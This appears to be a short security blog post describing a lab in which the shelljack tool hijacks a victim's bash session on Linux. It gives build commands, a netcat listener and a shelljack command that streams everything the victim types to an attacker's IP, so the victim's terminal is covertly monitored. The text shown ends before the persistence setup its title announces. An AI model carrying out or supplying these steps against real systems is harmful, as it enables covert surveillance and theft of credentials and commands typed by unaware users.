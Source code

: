 ```yaml
---
title: Persistent monitoring
published: true
---
```


Today we will be using shelljack to monitor the bash of a victim with persistence.

## [](#header-2)Setting up the lab

We will need an attacking machine with netcat installed and a victim machine with netcat, git and [Shelljack](https://github.com/emptymonkey/shelljack).

To install shelljack on the victim's machine:

```bash
git clone https://github.com/emptymonkey/ptrace_do.git
cd ptrace_do
make
cd ..

git clone https://github.com/emptymonkey/ctty.git
cd ctty
make
cd ..

git clone https://github.com/emptymonkey/shelljack.git
cd shelljack
make
```

If we can't install netcat in the victim's machine, we can download a static bin [nc](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/ncat)

```bash
wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/ncat
chmod +x ncat
```

## [](#header-2)Simple attack

We have everything ready, now we are going to test that everything is ok before creating the persistence.

In the attacker's machine we set up a listener:

```bash
nc -lvp 9999
```

Now in the victim's machine we have to know the PID of the tty and execute shelljack:

```bash
tty
./shelljack -n Attacker IP:9999 $$
```

![POC](https://github.com/M4luk0/m4luk0.github.io/blob/master/images/victim_poc.png)

Now when the victim writes a command, we can see it in our machine.

Victim:

![POC](https://github.com/M4luk0/m4luk0.github.io/blob/master/images/victim_poc_1.png)

Attacker:

![POC](https://github.com/M4luk0/m4luk0.github.io/blob/master/images/attacker_poc_1.png)
